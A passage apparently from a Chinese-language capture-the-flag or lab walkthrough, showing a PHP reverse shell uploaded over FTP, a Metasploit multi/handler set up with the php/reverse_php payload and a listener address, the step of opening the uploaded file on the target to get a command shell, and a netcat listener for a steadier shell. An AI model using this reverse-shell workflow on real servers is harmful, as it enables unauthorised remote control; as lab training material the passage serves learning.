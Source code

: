 ```
-rwxrwxr-x    1 112      118          2983 Aug 03 07:22 phpreverseshell.php
226 Directory send OK.
```

```
┌──(root㉿kali)-[~]
└─# msfconsole -q 
[*] Starting persistent handler(s)...
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/reverse_php
payload => php/reverse_php
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (php/reverse_php):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > set LHOST 10.18.72.222
LHOST => 10.18.72.222
msf6 exploit(multi/handler) > set LPORT 4433
LPORT => 4433
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.72.222:4433 
```

访问http://10.10.40.155/files/ftp/，点击刚才上传的phpreverseshell.php。成功获得Command shell session。

因为Command shell session非常不稳定，所以需要获取PHP Reverse Shell。

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 1234
listening on [any] 1234 ...
```
